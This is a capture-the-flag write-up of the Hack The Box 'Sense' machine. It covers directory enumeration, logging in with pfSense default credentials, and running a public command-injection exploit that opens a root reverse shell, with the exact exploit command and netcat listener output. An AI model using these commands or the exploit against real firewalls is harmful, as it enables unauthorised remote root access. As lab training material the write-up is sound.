

# Sense: 10.10.10.60

## Hints

- Admin access is all about directory enumeration and default creds
- Code execution is all about software version
- Privesc may not be required!

## nmap

Starting with the usual `nmap` scan. Interesting ports:

```none
80/tcp  open  http       lighttpd 1.4.35
443/tcp open  ssl/https?
```

## 80 + 443: Recon + Gobuster

Browsing to the website - we get redirected to port 443 (HTTPS) and the pfSense login page is displayed - a free network firewall distribution. Interesting.



Tried a couple default logins, such as:

- `admin:admin`
- `admin:sense`
- `admin:pfsense`

The last one was a lucky guess off the top of my head... and after a quick Google, the official docs on the [Default Username and Password](https://docs.netgate.com/pfsense/en/latest/usermanager/defaults.html) is `admin:pfsense`. Regardless, none of the credentials were valid. I have a friend who has a pfsense setup - and knew it has an inbuilt defense against password guessing. So I stopped password guessing and avoided the use of `hydra` - which would usually be a good option here.

The next step, try `gobuster` - with quite a few extensions and a small wordlist. The extensions were a bit of a gut instinct. I knew pfSense is written in PHP. The other extensions were selected after having a little look through the project GitHub repos.

```none
└─$ gobuster dir -t 20 -u https://10.10.10.60 -w ~/SecLists/Discovery/Web-Content/common.txt -o gobuster_443_root_common.log -k -x php,txt,sh,xml
```

Success! Found an interesting file called `changelog.txt`. 

```none
# Security Changelog 

### Issue
There was a failure in updating the firewall. Manual patching is therefore required

### Mitigated
2 of 3 vulnerabilities have been patched.

### Timeline
The remaining patches will be installed during the next maintenance window
```

This seemed like a non-vendor style changelog - so seems like a good hint. It seemed like the best thing would be to find an exploit to try - based on the hint in the `changelog.txt` file. But without a version number, it is like flying blind - and the only information I had was the machine release date. Looking at the previous `gobuster` results I decided to extend the search with some other wordlists. Tried a couple, then got lucky.

```none
└─$ gobuster dir -t 20 -u https://10.10.10.60 -w ~/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -o gobuster_443_root_medium.log -k -x php,txt,sh
```

Got another interesting file named `system-users.txt`.

```none
####Support ticket###

Please create the following user


username: Rohit
password: company defaults
```

The `company defaults` threw me for a second, and then realised it probably referred to the vendor defaults. Tried the following credentials, and got access:

- Username: `rohit`
- Password: `pfsense`


With access to the admin panel, we can see the software version information:

```none
2.1.3-RELEASE (amd64)
built on Thu May 01 15:52:13 EDT 2014
FreeBSD 8.3-RELEASE-p16
```

## Getting Code Execution

With access to the admin panel and the exact version number of the pfSense software - time to go looking for code execution to get a shell. Looking for `pfsense` in `searchsploit` got a lot of results.

```none
└─$ searchsploit pfsense                                          
---------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                    |  Path
---------------------------------------------------------------------------------- ---------------------------------
pfSense - 'interfaces.php?if' Cross-Site Scripting                                | hardware/remote/35071.txt
pfSense - 'pkg.php?xml' Cross-Site Scripting                                      | hardware/remote/35069.txt
pfSense - 'pkg_edit.php?id' Cross-Site Scripting                                  | hardware/remote/35068.txt
pfSense - 'status_graph.php?if' Cross-Site Scripting                              | hardware/remote/35070.txt
pfSense - (Authenticated) Group Member Remote Command Execution (Metasploit)      | unix/remote/43193.rb
pfSense 2 Beta 4 - 'graph.php' Multiple Cross-Site Scripting Vulnerabilities      | php/remote/34985.txt
pfSense 2.0.1 - Cross-Site Scripting / Cross-Site Request Forgery / Remote Comman | php/webapps/23901.txt
pfSense 2.1 build 20130911-1816 - Directory Traversal                             | php/webapps/31263.txt
pfSense 2.2 - Multiple Vulnerabilities                                            | php/webapps/36506.txt
pfSense 2.2.5 - Directory Traversal                                               | php/webapps/39038.txt
pfSense 2.3.1_1 - Command Execution                                               | php/webapps/43128.txt
pfSense 2.3.2 - Cross-Site Scripting / Cross-Site Request Forgery                 | php/webapps/41501.txt
Pfsense 2.3.4 / 2.4.4-p3 - Remote Code Injection                                  | php/webapps/47413.py
pfSense 2.4.1 - Cross-Site Request Forgery Error Page Clickjacking (Metasploit)   | php/remote/43341.rb
pfSense 2.4.4-p1 (HAProxy Package 0.59_14) - Persistent Cross-Site Scripting      | php/webapps/46538.txt
pfSense 2.4.4-p1 - Cross-Site Scripting                                           | multiple/webapps/46316.txt
pfSense 2.4.4-p3 (ACME Package 0.59_14) - Persistent Cross-Site Scripting         | php/webapps/46936.txt
pfSense 2.4.4-P3 - 'User Manager' Persistent Cross-Site Scripting                 | freebsd/webapps/48300.txt
pfSense 2.4.4-p3 - Cross-Site Request Forgery                                     | php/webapps/48714.txt
pfSense < 2.1.4 - 'status_rrd_graph_img.php' Command Injection                    | php/webapps/43560.py
pfSense Community Edition 2.2.6 - Multiple Vulnerabilities                        | php/webapps/39709.txt
pfSense Firewall 2.2.5 - Config File Cross-Site Request Forgery                   | php/webapps/39306.html
pfSense Firewall 2.2.6 - Services Cross-Site Request Forgery                      | php/webapps/39695.txt
pfSense UTM Platform 2.0.1 - Cross-Site Scripting                                 | freebsd/webapps/24439.txt
```

Took the usual "Hack The Box Exploit Finding Approach" - ignoring exploits that were not useful, such as XSS, and other client-side exploits. Since there wasn't an exact match, tried doing some more research on this specific version of pfsense. I checked the [Releases](https://docs.netgate.com/pfsense/en/latest/releases/index.html) page on Netgate (who make pfsense) to try get more information. The security fixes for each release were not easy to navigate or disseminate. 

Then I started digging through some of the results provided by `searchsploit` and trying some of the exploits - mainly code execution exploits. Spent about 30-40 minutes messing around with no luck. I went "down" the list from the top, so it took a while to get to _pfSense < 2.1.4 - 'status_rrd_graph_img.php' Command Injection_. In retrospect, after trying this exploit and it working I was thinking of my methodology. After getting command injection I Googled the software version - and the first hit was what I needed?! Hindsight!


I copied the exploit using `searchsploit`:

```none
└─$ searchsploit -m php/webapps/43560.py
  Exploit: pfSense < 2.1.4 - 'status_rrd_graph_img.php' Command Injection
      URL: https://www.exploit-db.com/exploits/43560
     Path: /usr/share/exploitdb/exploits/php/webapps/43560.py
File Type: Python script, ASCII text executable, with CRLF line terminators

Copied to: /media/sf_share/m/sense/43560.py

```

This exploit was easy to work with. No self-signed SSL errors, and written in Python 3. Nice to use, and the exploit seemed to work out the box. Something I don't get much with Python exploits in ExploitDB. The only problem I had was not starting a reverse shell listener on my machine, which made the exploit fail silently (or without a good error). This is because the default payload is a Python reverse shell. The full syntax I used was:

```none
└─$ python3 43560.py --rhost 10.10.10.60 --lhost 10.10.14.2 --lport 9001 --username rohit --password pfsense
CSRF token obtained
Running exploit...
Exploit completed
```

And... command execution and a reverse shell as `root`. It was pretty easy once I got the right exploit!

```none
└─$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.60] 19994
sh: can't access tty; job control turned off
# id
uid=0(root) gid=0(wheel) groups=0(wheel)
# wc -c /home/rohit/user.txt
      32 /home/rohit/user.txt
# wc -c /root/root.txt
      33 /root/root.txt
```

Done!

## Lessons Learned

- Remember to try different wordlists logically (e.g., small with lots of extensions to large with a few/no extensions)
- Stop relying on the go-to tools, like `searchsploit` in this case, to find exploits

## Useful Resources

- [HackTheBox Sense - ippsec](https://www.youtube.com/watch?v=d2nVDoVr0jE)
- [HTB: Sense by 0xdf](https://0xdf.gitlab.io/2021/03/11/htb-sense.html)
